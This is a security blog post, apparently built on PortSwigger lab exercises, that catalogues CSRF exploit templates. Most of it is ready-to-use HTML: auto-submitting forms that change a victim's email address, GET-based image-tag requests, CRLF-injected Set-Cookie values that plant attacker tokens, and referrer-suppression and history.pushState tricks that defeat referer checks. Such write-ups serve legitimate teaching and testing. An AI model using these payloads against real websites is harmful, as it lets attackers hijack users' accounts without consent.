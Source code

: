 ```yaml
---
layout: post
title:  "CSRF Attacks"
author: erik
categories: [ Web ]
image: https://user-images.githubusercontent.com/47476901/159375082-f0ca6711-c380-41c8-b82d-9e1515ff729e.png
beforetoc: ""
toc: false
tags: [ Web Security, Payloads ]
---
```

CSRF attacks (Cross-site request forgery) is a type of malicious exploit that aims to perform unauthorized operations that will be executed by a user that the website trusts.

# Table of Contents
1. [CSRF vulnerability without defenses](#CSRFwithoutDefenses)
2. [Token validation depends on request method](#CSRFinGET)
3. [Token validation depends on token presence](#CSRFonPresence)
4. [The CSRF token is not bound to the user's session](#CSRFnotBound)<br>
   4.1. [Same token between users](#SametokenUsers)<br>
   4.2. [Token not linked to the session](#CSRFnotBoundSession)
5. [The token is duplicated in the cookie](#TokenDuplicatedCookie)
6. [CSRF without referrer](#CSRFwithoutReferrer)
7. [Broken Referer Validation](#CSRFRefererBroken)

---

### CSRF vulnerability without defenses <a name="CSRFwithoutDefenses"></a>
**CSRF basic mail**<br>
It makes a request to the endpoint that changes the email and javascript confirms the request, which will change the mail just by visiting the page.

Code from https://web-attacker.com/malicioso.html

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF where token validation depends on request method <a name="CSRFinGET"></a>
Depending on the request method, it can be done with GET
```html
<img src="https://vulnerable-web.com/my-account/change-email?email=pwned@gmail.com"/>
```
---
### CSRF where token validation depends on the presence of the token <a name="CSRFonPresence"></a>
It does not verify the CSRF token, it is removed and bypassed.

```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
             <input type="hidden"  value="csrf" />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
---
### CSRF token is not bound to user session <a name="CSRFnotBound"></a>
**Using the same token in both users**<br>
We can use the same CSRF Token in one user than in another, thanks to the fact that the token is not linked to the user's session <a name="SametokenUsers"></a><br>
My token: U6vJiRteqjSX46XRk57k6saqolEcdDvQ works for other users too.
```html
<html>
	<body>
		<form action="https://vulnerable-web.com/email/change" method="POST">
			<input type="hidden" name="email" value="pwned@gmail.com" />
                        <input type="hidden" name="csrf" value="<csrf>"  />
		</form>
		<script> document.forms[0].submit(); </script>
	</body>
</html>
```
**The CSRF token is not bound to the session** <a name="CSRFnotBoundSession"></a><br>
So the same csrf token and the same csrf key could be used in one account as in another to change the email
We can use CRLF Injection (If exists) to set the key in the CSRF payload.
```html
<html>
  <body>
    <form action="https://vulnerable-web.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@gmail.com" /> 
      <input type="hidden" name="csrf" value="<csrf>" />
      <input type="submit" value="Submit request" />    </form>
  <img src="https://vulnerable-web.com/?search=test%0d%0aSet-Cookie:%20csrfKey=<key>" onerror="document.forms[0].submit()">

  </body>
</html>
```

---

### The CSRF token is simply duplicated into a cookie <a name="TokenDuplicatedCookie"></a>
The token is validated in the cookie, we can make the user create his own csrf token which we indicate.

![cookieToken](https://user-images.githubusercontent.com/47476901/159374578-694ad92d-dc4c-43c5-b169-a32c28eebf3f.png)

Since the token was validated in the cookie, we can send the request to change the mail.
Again we can use CRLF Intection to indicate the token

```html
<html>
    <body>
        <form action="https://vulnerable-web.com/email/change" method="POST" >
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="31415926535897932384626433832795028841971">
        </form>
		
        <img src="https://vulnerable-web.com/?search=hat%0d%0aSet-Cookie:%20csrf=31415926535897932384626433832795028841971" onerror="document.forms[0].submit()">
    </body>
</html>
```


---
### CSRF without referrer <a name="CSRFwithoutReferrer"></a>
We indicate that the Referer does not exist in the CSRF exploit using the meta tag.
Payload:
```html
<meta name="referrer" content="no-referrer">
```
Exploit:
```html
<html>
  <head> 
     <meta name="referrer" content="no-referrer">
  </head> 
<body> 
   <form action="https://vulnerable-web.com/email/change" method="POST"> 
   <input type="hidden" name="email" value="pwned@gmail.com" />
   <input type="submit"/>
</form> 
   <script>document.forms[0].submit();</script>
</body>
</html>
```


---
### CSRF with broken Referer validation <a name="CSRFRefererBroken"></a>

The page validates the referrer when we want to change mail, **it is determined if the referrer includes the domain of the origin page.**
By modifying the referer with javascript we can evade this validation and be able to exploit the CSRF.

**Modify the Referer:**
 - Using this javascript function `history.pushState()` that adds an entry to the browser's session history stack.
```html
<script>history.pushState("", "", "/?vulnerable-web.com")</script>
```
- Referer validation accepts any header that contains the expected domain somewhere in the chain
```html
Referer: https://web-attacker.com/?vulnerable-web.com
```

**Referrer-Policy**
- Many browsers now remove the query string from the Referrer header by default as a security measure. To override this behavior and ensure that the full URL is included in the request.
- We have to add in the header "Referrer-Policy: unsafe-url"
Payload:
```html
<meta name="referrer" content="unsafe-url" />
```

Exploit:
```html
<html>
   <head>
      <meta name="referrer" content="unsafe-url" />
   </head>
   <body>
      <script>
         history.pushState("", "", "/?vulnerable-web.com")  
      </script>
      <form action="https://vulnerable-web.com/email/change" method="POST">
         <input type="hidden" name="email" value="pwned@gmail.com" />
         <input type="submit" value="Submit request" />
      </form>
      <script>document.forms[0].submit();</script>
   </body>
</html>
```

---

- Source Labs: [Portswigger Labs](https://portswigger.net/web-security)
- Credits Image: [cobalt.io](https://www.cobalt.io)
